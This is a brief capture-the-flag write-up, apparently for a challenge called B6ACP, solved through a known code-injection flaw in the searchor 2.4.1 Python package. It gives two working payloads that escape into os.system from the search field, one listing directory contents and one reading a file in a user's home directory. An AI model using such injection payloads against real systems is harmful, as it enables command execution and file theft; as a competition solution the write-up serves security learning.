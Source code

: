 # B6ACP [100 points] (97 solves)
`searchor/2.4.1` vulnerability.\
Use `'), __import__('os').system('ls ..')#` and select `google` print list of files in the directory, since the flag is stored in home as description stated.
After several searches, use `'), __import__('os').system('cat ../home/hkcertuser/local.txt')#` to get the flag.